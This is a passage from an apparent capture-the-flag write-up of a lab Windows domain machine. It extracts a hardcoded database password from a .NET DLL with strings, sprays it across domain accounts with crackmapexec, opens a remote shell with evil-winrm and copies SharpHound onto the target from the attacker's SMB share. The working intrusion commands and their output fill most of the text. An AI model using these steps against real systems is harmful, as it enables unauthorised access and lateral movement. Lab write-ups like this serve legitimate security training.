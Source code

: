 The file is a .NET binary:



    root@kali# file MultimasterAPI.dll 
    MultimasterAPI.dll: PE32 executable (DLL) (console) Intel 80386 Mono/.Net assembly, for MS Windows



But before opening it in DNSpy, I'll run `strings`. It's important to
remember for Windows binaries to run with and without `-el` to capture
the 16 bit character strings. There's one that jumps out when I run with
`-el`:



    server=localhost;database=Hub_DB;uid=finder;password=D3veL0pM3nT!;



That looks like a database connection string.

### Test Creds

In what's becoming a theme for this box, I'll check the creds with
`crackmapexec` against my user list to see if it works for any, and it
finds one:



    root@kali# crackmapexec smb 10.10.10.179 -u dom_users -p 'D3veL0pM3nT!' --continue-on-success
    ...[snip]...
    SMB         10.10.10.179    445    MULTIMASTER      [+] MEGACORP\sbauer:D3veL0pM3nT!
    ...[snip]...



### WinRM

This user can also use WinRM to get a shell:



    root@kali# evil-winrm -u 'MEGACORP\sbauer' -p 'D3veL0pM3nT!' -i 10.10.10.179

    Evil-WinRM shell v2.3

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\sbauer\Documents>



## Priv: sbauer --\> jordan

### Collect Bloodhound

Given this is an active directory environment, it's time I ran
[BloodHound](https://github.com/BloodHoundAD/BloodHound). I'll copy
`SharpHound.exe` into my SMB share and then onto MultiMaster:



    *Evil-WinRM* PS C:\programdata> copy \\10.10.14.19\share\SharpHound.exe .
